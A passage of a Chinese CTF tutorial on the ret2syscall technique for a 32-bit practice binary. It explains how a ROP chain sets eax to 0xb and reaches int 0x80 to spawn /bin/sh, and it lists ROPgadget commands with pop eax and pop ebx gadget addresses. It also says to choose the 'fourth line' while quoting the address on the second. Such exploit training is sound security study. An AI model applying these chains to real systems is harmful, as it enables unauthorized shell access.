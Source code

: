 
过程：溢出后此时返回的地址是pop eax的地址，程序进而转型向该地址执行，此时栈顶的元素为0xb，执行pop eax后eax的值成功地赋值为0xb，接着执行pop eax后一句指令ret，返回下一条指令的地址，需要出栈，正好将程序的执行位置转向了pop ebx所在的位置，重复上述过程，到最后将程序指向了int 0x80处，进行系统调用

那么，如何找到类似的pop eax，ret程序呢——使用工具：ROPgadget

使用如下命令：

```
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'

0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

以上可随意选择，为了简单起见，可以选择第4行，即地址为0x080bb196

选择其他的也可以，比如第一行，在地址后面首先放入0xb，再放入addr(/bin/sh),再随意放入8个字符填充esi和edi，再放入填充ecx指令的地址，原理类似，搞清楚执行流程即可

```
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx'

0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```
